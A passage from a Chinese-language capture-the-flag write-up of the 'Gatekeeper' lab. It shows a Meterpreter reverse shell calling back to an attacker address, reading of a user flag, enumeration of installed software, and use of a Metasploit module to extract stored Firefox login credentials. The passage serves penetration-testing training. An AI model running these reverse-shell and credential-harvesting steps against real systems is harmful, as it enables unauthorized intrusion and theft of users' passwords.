 [*] Started reverse TCP handler on 10.13.21.169:4444 
[*] Sending stage (175174 bytes) to 10.10.97.198
[*] Meterpreter session 1 opened (10.13.21.169:4444 -> 10.10.97.198:49219) at 2021-11-24 04:18:57 -0500

meterpreter > getuid
Server username: GATEKEEPER\natbat
meterpreter > cat user.txt.txt
{逗你玩儿~}

The buffer overflow in this room is credited to Justin Steven and his 
"dostackbufferoverflowgood" program.  Thank you!
```


# 提权

我们使用```windows/gather/enum_applications```模块列出靶机安装的软件信息

```
meterpreter > run post/windows/gather/enum_applications 
                                                                                                                                                                          
[*] Enumerating applications installed on GATEKEEPER                                                                                                                      

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 Amazon SSM Agent                                                    2.3.842.0
 Amazon SSM Agent                                                    2.3.842.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 EC2ConfigService                                                    4.9.4222.0
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.20.27508  14.20.27508.1
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.20.27508      14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.20.27508         14.20.27508
 Mozilla Firefox 75.0 (x86 en-US)                                    75.0

```


看到靶机安装了Firefox浏览器，我们继续用```post/multi/gather/firefox_creds```尝试模块导出浏览器上可能的登录凭证，此模块可以枚举出firefox存储的用户信息。

```
meterpreter > run post/multi/gather/firefox_creds 

[-] Error loading USER S-1-5-21-663372427-3699997616-3390412905-1000: Hive could not be loaded, are you Admin?
[*] Checking for Firefox profile in: C:\Users\natbat\AppData\Roaming\Mozilla\
